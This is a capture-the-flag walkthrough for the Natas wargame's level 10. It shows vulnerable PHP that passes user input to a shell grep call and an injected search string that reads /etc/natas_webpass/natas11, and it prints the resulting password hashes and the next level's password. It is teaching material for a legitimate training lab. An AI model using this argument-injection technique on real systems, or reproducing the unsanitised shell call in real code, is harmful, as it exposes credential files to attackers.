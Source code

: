 ```html
For security reasons, we now filter on certain characters
Find words containing:
Output:
--------------------------------------------------------
Output:
<pre>
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    if(preg_match('/ [;|&] /',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
--------------------------------------------------------
# now they are filtering the ; and & command.
but they still haven’t fixed the way “key” is storing input.
exploit this the same way we did in 9;
but this time just using regular expressions.

enter ".* /etc/natas_webpass/natas11 #"
".*" : tell grep to search for all, while ignoring case, and match it to etc/natas_webpass/natas11.
"#" : comments out dictionary.txt, preventing any errors from occurring.

grep -i .* /etc/natas_webpass/natas11 # dictionary.txt
--------------------------------------------------------
Output:
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

---

## Natas Level 10 → Level 11
Username: natas11
URL:      https://natas11.natas.labs.overthewire.org
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

